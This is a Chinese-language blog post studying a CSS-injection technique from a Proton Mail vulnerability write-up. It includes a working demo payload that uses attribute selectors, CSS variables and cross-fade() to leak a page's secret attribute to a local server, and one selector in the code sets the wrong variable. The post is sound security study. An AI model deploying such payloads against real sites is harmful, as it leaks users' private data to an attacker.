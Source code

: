 ```yaml
---
layout: post
title:  css变量+cross-fade leak页面secret
tags: [css,xss]
---
```


在学习Proton Mail 的xss利用时，作者利用css leak页面的一个uuid，本文学习并验证。  
文章中利用了几个技术，将uuid按3位字符拆分，利用css selector来设置变量，最后利用cross-fade组合图片，将请求发出来，然后在服务端拼接。

缺点是css文件较大，因为要将所有的3字符组合全部写在css中。
## css变量
利用css selector，设置变量。  
需要注意：Note that the selector given to the ruleset defines the scope that the custom property can be used in.

## 利用cross-fade()发送请求
```html
<html>
<body>
<div secret="9364538164"></div>
inject css below
<style></style>
</body>
</html>
```
The original syntax is supported in Safari and supported with the -webkit- prefix in Chrome, Opera, and other blink-based browsers.

## 结果
safari可以复现成功，在chrome下需要使用-webkit-cross-fade才可以。
```html
<html>
<body>
<div secret="9364538164">div here</div>
inject css below
<style>
div[secret*="936"]{
--a936 : url("//127.0.0.1:8000/936.png");
}
div[secret*="364"]{
--a364 : url("//127.0.0.1:8000/364.png")
}
div[secret*="646"]{
--a364 : url("//127.0.0.1:8000/646.png")
}
div{
background-image: cross-fade(cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%);
background-image: -webkit-cross-fade(-webkit-cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%)
}
</style>
</body>
</html>
```
![image](https://camo.githubusercontent.com/039c797d20732fef79bfb8c75d0d743c383a0dac1156f21d0b5a80b0abab4c94/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d414252547055454770717056655257696375696361793064427973637654746d6e6963527472313369635571356c696365656e6269614b665642536366412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)  
网页访问  
![image](https://camo.githubusercontent.com/aee6c2bebb4a87c697952f972686e3aac4ec29947e93c1f5895b303aba919ab4/68747470733a2f2f6d6d62697a2e717069632e636e2f737a5f6d6d62697a5f706e672f615a4f4951473732466a526963793931514271624a7a786c6b7569616331726d4142623961757648386e303656686b52566f37426e3571386f553059706a6271706d61365253705958796b683478674c73794a4c566247412f3634303f77785f666d743d706e6726777866726f6d3d352677785f6c617a793d312677785f636f3d31)  
服务端请求

演示时未将url替换为外部url。

https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/  
https://developer.mozilla.org/en-US/docs/Web/CSS/Using_CSS_custom_properties  
https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade  


